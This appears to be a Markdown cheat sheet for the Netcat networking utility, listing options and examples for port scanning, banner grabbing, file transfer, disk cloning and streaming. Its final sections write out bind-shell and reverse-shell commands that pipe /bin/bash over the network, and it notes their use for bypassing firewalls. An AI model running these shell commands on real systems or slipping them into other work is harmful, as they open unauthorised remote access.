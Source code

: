 ```yaml
---
title: Netcat
date: 2020-11-25 18:28:43
icon: icon-netcat
background: bg-blue-600
tags: 
    - ncat
    - nc
    - utility
    - network
    - traffic
categories:
    - Linux Command
intro:  This cheat sheet provides various for using Netcat on both Linux and Unix.
---
```


Getting started {.cols-5}
---------------

### Usage {.col-span-2}

Connect to a host located anywhere

```shell script
$ nc [options] [host] [port]
```

Listen for incoming connections
```shell script 
$ nc -lp port [host] [port]
```



### Option examples {.col-span-3 .row-span-2}

| Option | Description                 | Example                                            |
|--------|-----------------------------|----------------------------------------------------|
| `-h`     | nc -h                       | Help                                               |
| `-z`     | nc -z 192.168.1.9 1-100        | Port scan for a host or IP address                 |
| `-v`     | nc -zv 192.168.1.9 1-100     |   Provide verbose output   | 
| `-n`     | nc -zn 192.168.1.9 1-100     | Fast scan by disabling DNS resolution              |
| `-l`     | nc -lp 8000                 | TCP Listen mode _(for inbound connects)_                                   |
| `-w`     | nc -w 180 192.168.1.9 8000     | Define timeout value                               |
| `-k`     | nc -kl 8000 | Continue listening after disconnection |
| `-u`     | nc -u 192.168.1.9 8000 | Use UDP instead of TCP |
| `-q`     | nc -q 1 192.168.1.9 8000 | Client stay up after EOF |
| `-4`     | nc -4 -l 8000 | IPv4 only                                          |
| `-6`     | nc -6 -l 8000 | IPv6 only                                          |


### Chat client-server {.col-span-2}
Server (192.168.1.9)
```shell script
$ nc -lv 8000
```

Client
```shell script
$ nc 192.168.1.9 8000
```



Netcat Examples {.cols-3}
--------

### Banner grabbing
```shell script
$ nc website.com 80
GET index.html HTTP/1.1
HEAD / HTTP/1.1
```
or
```shell script
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### Port scanning

Scan ports between 21 to 25
```shell script
$ nc -zvn 192.168.1.1 21-25
```

Scan ports 22, 3306 and 8080
```shell script
$ nc -zvn 192.168.1.1 22 3306 8080
```


### Proxy and port forwarding
```shell script
$ nc -lp 8001 -c "nc 127.0.0.1 8000"
```
or
```shell script
$ nc -l 8001 | nc 127.0.0.1 8000
```
Create a tunnel from one local port to another



### Download file

Server (192.168.1.9)
```shell script
$ nc -lv 8000 < file.txt
```

Client
```shell script
$ nc -nv 192.168.1.9 8000 > file.txt
```

Suppose you want to transfer a file “file.txt” from server A to client B.


### Upload file

Server (192.168.1.9)
```shell script
$ nc -lv 8000 > file.txt
```

Client
```shell script
$ nc 192.168.1.9 8000 < file.txt
```

Suppose you want to transfer a file “file.txt” from client B to server A:


### Directory transfer

Server (192.168.1.9)
```shell script
$ tar -cvf – dir_name | nc -l 8000
```

Client
```shell script
$ nc -n 192.168.1.9 8000 | tar -xvf -
```

Suppose you want to transfer a directory over the network from A to B.


### Encrypt transfer {.col-span-2}


Server (192.168.1.9)
```shell script
$ nc -l 8000 | openssl enc -d -des3 -pass pass:password > file.txt
```

Client
```shell script
$ openssl enc -des3 -pass pass:password | nc 192.168.1.9 8000
```

Encrypt data before transfering over the network



### Clones

Server (192.168.1.9)
```shell script
$ dd if=/dev/sda | nc -l 8000
```

Client
```shell script
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

Cloning a linux PC is very simple. Suppose your system disk is /dev/sda



### Video streaming

Server (192.168.1.9)
```shell script
$ cat video.avi | nc -l 8000
```

Client
```shell script {.wrap}
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

Streaming video with netcat




### Remote shell

Server (192.168.1.9)
```shell script
$ nc -lv 8000 -e /bin/bash
```

Client
```shell script
$ nc 192.168.1.9 8000
```

We have used remote Shell using the telnet and ssh but what if they are not installed and we do not have the permission to install them, then we can create remote shell using netcat also.



### Reverse shell

Server (192.168.1.9)
```shell script
$ nc -lv 8000
```

Client
```shell script
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

Reverse shells are often used to bypass the firewall restrictions like blocked inbound connections

